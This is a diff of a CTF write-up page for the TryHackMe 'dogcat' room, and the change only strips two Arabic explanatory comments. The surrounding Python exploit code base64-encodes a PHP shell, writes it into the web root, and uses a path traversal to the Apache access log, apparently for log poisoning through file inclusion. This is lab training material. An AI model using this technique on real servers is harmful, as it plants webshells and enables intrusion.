

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: THM/dogcat.md, the part around the change. GitHub-like rendering.

```diff
--- a/THM/dogcat.md
+++ b/THM/dogcat.md
@@ -622,8 +622,8 @@ import requests, base64, os, sys
 url = "http://10.10.106.210/"
 local = "shell_php.php"
 
-b64 = base64.b64encode(open(local,"rb").read()).decode()   # نقرأ الملف ونشفّره Base64
-cmd = f"echo {b64} | base64 -d > /var/www/html/shell.php"   # أمر لفك الشيفرة وكتابة الملف في webroot
+b64 = base64.b64encode(open(local,"rb").read()).decode()
+cmd = f"echo {b64} | base64 -d > /var/www/html/shell.php"
 r = requests.get(url, params={
     "view":"dog/../../../../../../var/log/apache2/access.log",
     "ext":"",
```
